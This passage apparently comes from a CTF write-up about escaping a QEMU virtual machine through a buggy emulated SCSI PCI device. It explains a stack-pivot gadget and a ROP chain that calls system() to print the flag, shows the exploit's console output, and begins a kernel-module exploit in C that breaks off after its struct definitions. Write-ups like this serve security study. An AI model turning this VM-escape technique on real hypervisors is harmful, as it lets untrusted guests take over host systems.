 We make `next` point to this gadget: `leave ; pop rsi ; dec ecx ; ret`  
This will set `rsp` to `cur` then pop off 2 things (1 for `leave`, 1 for `pop rsi`), which pops off the two struct entries of `cur`, and we can place a ropchain afterwards.  

Then we do a short ropchain to set `rdi` to our command and ret to `system.plt`  

It seems qemu screws with the terminal i/o (`/bin/sh` is unresponsive) so we `cat flag` instead
```
[    1.249520] [+] initializing ctf pci driver...
[    1.254937] [+] pci_probe called
[    1.277851] ACPI: PCI Interrupt Link [LNKD] enabled at IRQ 11
[    1.282401] [+] pci device enabled
[    1.284807] [+] mapped mmio ffffb90940059000
[    1.289681] [+] loaded ctf pci driver
[    1.293190] [+] starting exploit...
[    1.789221] [+] TEXT: 0x556ab27e9000
[    1.792778] [+] cur_req: 0x7f45e4233bf0
rwctf{OMG_E5c4pe_fffrom_tHe_wh0le_wOrld}
Segmentation fault
```
The exploit isn't 100% reliable, I believe it wouldn't always reclaim the freed chunk, but it works often enough.  

As we've seen, sometimes bugs aren't super crazy to understand or exploit, it's just wrapping your head around the functionality required to trigger them (and if they're even triggerable) that takes a while.

### Full exploit
```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/pci.h>
#include <linux/fs.h>
#include <linux/proc_fs.h>
#include <linux/uaccess.h>

struct req_head {
    u8 target_id;
    u8 target_bus;
    u8 lun;
    u8 pad;
    u32 buf_len;
    s32 type;
    u8 data[0];
};
struct SCSIRequest
{
    u64 bus;
    void* dev;
    void* ops;
    u32 refcount;
    u32 tag;
    u32 lun;
    u32 status;
    void* hba_private;
    size_t resid;
    u8 cmd[0x30];
    void* cancel_notifiers;
    u8 sense[252];
    u32 sense_len;
    u8 enqueued;
    u8 io_canceled;
    u8 retry;
    u8 dma_started;
```